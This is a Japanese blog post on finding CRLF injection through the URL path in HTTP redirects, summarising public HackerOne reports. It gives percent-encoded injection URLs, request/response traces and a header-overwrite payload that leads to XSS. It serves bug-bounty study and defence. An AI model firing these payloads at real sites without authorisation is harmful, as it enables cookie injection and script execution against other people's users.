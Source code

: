 ```yaml
---
description: ロシアのバグハンターであるSergey Bobrov氏（@Black2Fan）がHackerOneで公開しているレポートを読んでいると、私が今まで認識しなかった方法でCRLFインジェクションを検出していた。後学のためにまとめておく。
---
```


# Request-URIのパスからのCRLFインジェクション

<time datetime="2018-02-14">Feb 14, 2018</time>

---

ロシアのバグハンターであるSergey Bobrov氏（[@Black2Fan](https://twitter.com/Black2Fan)）が[HackerOneで公開しているレポート](https://hackerone.com/bobrov?sort_type=latest_disclosable_activity_at&filter=type%3Apublic&page=1&range=forever)を読んでいると、私が今まで認識しなかった方法でCRLFインジェクションを検出していた。後学のためにまとめておく。

## パラメータからのCRLFインジェクション

私が今まで行なっていた方法は、パラメータの値がレスポンスヘッダに出力される箇所で、値に改行コードを含めて確認するだけだった。値がSet-CookieヘッダやLocationヘッダに含まれるパラメータを対象に、[RFCでヘッダフィールドの終端として認められている](http://httpwg.org/specs/rfc7230.html#message.robustness) `CRLF`（%0D%0A）と `LF`（%0A）に加え、Firefoxを除く主要ブラウザ<sup id="f1">[¹](#fn1)</sup>で終端として扱われる `CR`（%0D）も含めて確認していた。具体的には以下のような動作である。

hxxp://example.jp/?l=en%0D%0ASet-Cookie:crlf=injection

```http
GET /?l=en%0D%0ASet-Cookie:crlf=injection HTTP/1.1
Host: example.jp
...
```

```http
HTTP/1.1 200 OK
Date: Sun, 11 Feb 2018 00:00:00 JST
Server: Apache
Set-Cookie: lang=en
Set-Cookie:crlf=injection
...
```

## パスからのCRLFインジェクション

Bobrov氏が行なっていたのは、30xリダイレクトが発生する箇所でRequest-URIのパスに改行コードを含め、Locationヘッダの出力を確認する方法だった。レポートのリダイレクト処理に注目すると以下のケースに分けられる。

- HTTPSへのリダイレクト
- 異なるホストへのリダイレクト
- トレイリングスラッシを削除するリダイレクト

各ケースでのCRLFインジェクションについてレポートを参考にまとめていく。

### HTTPSへのリダイレクト

HTTPSのページにHTTPで接続すると、HTTPSへのリダイレクトが発生する箇所でのケースである。その際のパスに改行コードを含めることで、Locationヘッダの出力で改行できる場合がある。以下は[Sucuriへのレポート](https://hackerone.com/reports/144769)を参考にした例である。

hxxp://support.example.net/%23%0DSet-Cookie:crlf=injection

```http
GET /%23%0DSet-Cookie:crlf=injection HTTP/1.1
Host: support.example.net
...
```

```http
HTTP/1.1 301 Moved Permanently
Date: Tue, 14 Jun 2016 19:56:14 GMT
Server: Apache
Location: https://support.example.net/#
Set-Cookie:crlf=injection
...
```

改行コードの手前に `#`（%23）を含めているのは、それ以降がフラグメントとして処理され、Locationヘッダに出力されたからだと考える。パスやクエリは出力しないようにしていた、または改行コードをエスケープして出力していたが、通常サーバに送信されないフラグメントは想定外だったのだろうか。

[Trelloへのレポート](https://hackerone.com/reports/45514)のようにHTTPSからHTTPへのリダイレクトという逆のケースもあった。

### 異なるホストへのリダイレクト

接続したホストから別のホスト、または特定のパスへリダイレクトする箇所でのケースである。以下は[ownCloudへのレポート](https://hackerone.com/reports/154306)を参考にした `api.example.org` から `doc.example.org/api/` へのリダイレクトでの例である。

hxxps://api.example.org/%23%0DSet-Cookie:crlf=injection

```http
GET /%23%0DSet-Cookie:crlf=injection HTTP/1.1
Host: api.example.org
...
```

```http
HTTP/1.1 301 Moved Permanently
Date: Wed, 27 Jul 2016 10:28:01 GMT
Server: Apache
Strict-Transport-Security: max-age=63072000
X-Xss-Protection: 1; mode=block
Location: https://doc.example.org/api/#
Set-Cookie:crlf=injection
...
```

過去に使われていたホストから現在のホストへの変更処理だろう。この他にも[Mail.Ruへのレポート](https://hackerone.com/reports/15492)のような `example.jp` から `example.jp/en/` への言語変更や、[Greenhouse.ioへのレポート](https://hackerone.com/reports/25275)のような `example.jp` から `www.example.jp` へのサブドメインの変更でも検出されている。

### トレイリングスラッシュを削除するリダイレクト

パスの末尾にある `/` を[トレイリングスラッシュ](https://webmasters.googleblog.com/2010/04/to-slash-or-not-to-slash.html)と呼ぶ。このトレイリングスラッシュがある場合は通常ディレクトリを指し、ない場合はコンテンツを指す。サイトによっては `/about/` のようなディレクトリの要求に対して、トレイリングスラッシュを削除して `/about` のようなコンテンツの要求へ変更する場合がある。以下は[Mail.Ruへのレポート](https://hackerone.com/reports/67386)を参考にしたトレイリングスラッシュを削除する際のリダイレクトでの例である。

hxxp://m.my.example.jp/crlftest%0DSet-Cookie:crlf=injection/

```http
GET /crlftest%0DSet-Cookie:crlf=injection/ HTTP/1.1
Host: m.my.example.jp
...
```

```http
HTTP/1.1 301 Moved Permanently
Server: nginx
Date: Sat, 11 Jun 2016 00:00:00 GMT
Content-Type: text/html
Location: http://m.my.example.jp/crlftest
Set-Cookie:crlf=injection
...
```

この例は `crlftest` という存在しないコンテンツを要求したケースだが、存在するコンテンツを要求した場合のみトレイリングスラッシュを削除する箇所もある。これとは逆にトレイリングスラッシュを追加する際にリダイレクトが発生する箇所もある。そのような箇所でもパスから改行コードを挿入できる可能性はある。

## CRLFインジェクションによるLocationヘッダの上書き

Bobrov氏のレポートのなかで[Starbucksへのレポート](https://hackerone.com/reports/192667)だけが、リダイレクトを止めてXSSにつなげていた。リダイレクトを止める方法はブラウザごとに異なるため、レポートではChromeとFirefoxのPoCを示している。以下はFirefoxの例である。

hxxp://stagecafrstore.example.com/%3F%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3A0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E

```http
GET /%3F%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3A0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E HTTP/1.1
Host: stagecafrstore.example.com
...
```

```http
HTTP/1.1 301 Content-moved
Date: Tue, 20 Dec 2016 08:40:11 GMT
Server: WebServer
X-Original-link: /%3F%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3A0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E
X-XSS-Protection: 0
Location: //x:1
Content-Type: text/html
Content-Length: 98

<script>alert(document.domain)</script>
Content-Length: 0
X-OneLinkServiceType: onelink.fcgi
...
```

この例では `?`（%3F）と `CRLF`（%0D%0A）の後にLocationヘッダを挿入している点が興味深い。本来はHTTPSのページまたは異なるホストへのLocationヘッダが出力されていたが、CRLFインジェクションによってLocationヘッダを上書きできたのだろう<sup id="f2">[²](#fn2)</sup>。Locationヘッダを上書きしてリダイレクト先に `:1` のような[ブロック対象のポート](https://developer.mozilla.org/en-US/docs/Mozilla/Mozilla_Port_Blocking)を設定することで、リダイレクトを止めてレスポンスボディを表示させている<sup id="f3">[³](#fn3)</sup>。ChromeではLocationヘッダの値を空にすることでリダイレクトを止めていた。Request-URIのパスからのCRLFインジェクションでも、Locationヘッダを上書きできるケースはあるようだ。

## 所感

プログラム言語やフレームワークでの対策によって、CRLFインジェクションは作り込まれにくい脆弱性になったと考えていた。最近の診断でもほとんど見かけることはなかった。しかし、今回取り上げた事例は最近でも検出される場合があり、HackerOneでは他にもレポートが公開されている。Zeronights 2017の「[CRLF and OpenRedirect](https://speakerdeck.com/shikarisenpai/crlf-and-openredirect-for-dummies)」でも、この事例は取り上げられていた。これだけ検出されているのだから、今後バグバウンティの対象になるサイトでも検出されるだろう。スコープ内であれば認定される可能性が高い脆弱性なので狙い目だ。

---

<sup id="fn1">[¹](#f1)</sup> Chrome64、Safari11、Edge41、IE11は `CR` をヘッダフィールドの終端として扱っていた。  
<sup id="fn2">[²](#f2)</sup> 徳丸本のP.195「外部ドメインへのリダイレクト」にあるようなCGI特有の動作だと考える。  
<sup id="fn3">[³](#f3)</sup> はせがわさんが[ポートブロッキングを使う方法](http://d.hatena.ne.jp/hasegawayosuke/20161210/p1)をまとめている。
